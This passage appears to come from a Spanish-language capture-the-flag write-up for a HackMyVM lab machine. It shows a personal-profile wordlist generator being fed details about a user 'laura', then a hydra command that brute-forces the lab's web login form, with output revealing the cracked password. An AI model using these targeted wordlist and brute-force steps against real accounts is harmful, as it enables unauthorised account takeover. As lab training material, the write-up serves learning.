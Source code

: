 ```
> First Name: laura
> Surname: 
> Nickname: 
> Birthdate (DDMMYYYY): 


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: 


> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: cat        
> Do you want to add special chars at the end of words? Y/[N]: 
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]: 

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to laura.txt, counting 376 words.
> Hyperspeed Print? (Y/n) : n
[+] Now load your pistolero with laura.txt and shoot! Good luck!
```

Una vez generada, utilizo hydra para realizar el ataque de fuerza bruta.

```
$ hydra -l laura -P laura.txt admin.catland.hmv http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid username or password"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-13 20:00:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 376 login tries (l:1/p:376), ~24 tries per task
[DATA] attacking http-post-form://admin.catland.hmv:80/index.php:username=^USER^&password=^PASS^:Invalid username or password
[80][http-post-form] host: admin.catland.hmv   login: laura   password: Laura_2008
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-13 20:00:32
```
